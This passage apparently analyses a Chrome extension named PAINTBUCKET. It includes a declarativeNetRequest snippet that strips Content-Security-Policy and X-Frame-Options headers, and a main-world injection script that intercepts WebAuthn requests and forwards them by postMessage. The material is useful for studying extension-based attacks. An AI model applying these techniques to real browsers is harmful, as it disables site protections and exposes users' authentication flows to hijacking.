 #### PAINTBUCKET's CSP Bypass Mechanism

The system uses Chrome's `declarativeNetRequest` API to modify HTTP headers:

**Step 1: Header Removal Rules**
```javascript
// Remove CSP headers that would block injection
const rules = [
    {
        id: 1,
        priority: 1,
        action: {
            type: "modifyHeaders",
            responseHeaders: [
                {
                    header: "content-security-policy",
                    operation: "remove"
                }
            ]
        },
        condition: {
            resourceTypes: ["main_frame", "sub_frame"]
        }
    }
];
```

**Step 2: Dynamic Rule Application**
The extension dynamically applies these rules to all web requests:
- Removes `Content-Security-Policy` headers
- Removes `Content-Security-Policy-Report-Only` headers  
- Removes `X-Frame-Options` headers
- Disables other injection prevention mechanisms

### Cross-Frame Communication Bridge

#### The Challenge of Browser Isolation
Modern browsers isolate different execution contexts:
- **Content Scripts** - Run in isolated worlds with limited DOM access
- **Main World** - Where legitimate website JavaScript executes
- **Extension Context** - Has elevated privileges but can't directly access page content

#### PAINTBUCKET's Communication Architecture

**Component 1: Main World Injection (`inject.js`)**
Runs in the same context as the target website:
```javascript
// Intercept WebAuthn calls in the main world
function interceptWebAuthnRequest(requestData) {
    // Send to isolated world via window messaging
    window.postMessage({
        type: 'MAIN_TO_EXTENSION',
        payload: {
            type: 'webauthn_request',
            data: requestData,
            requestId: generateRequestId()
        }
    }, '*');
}
```
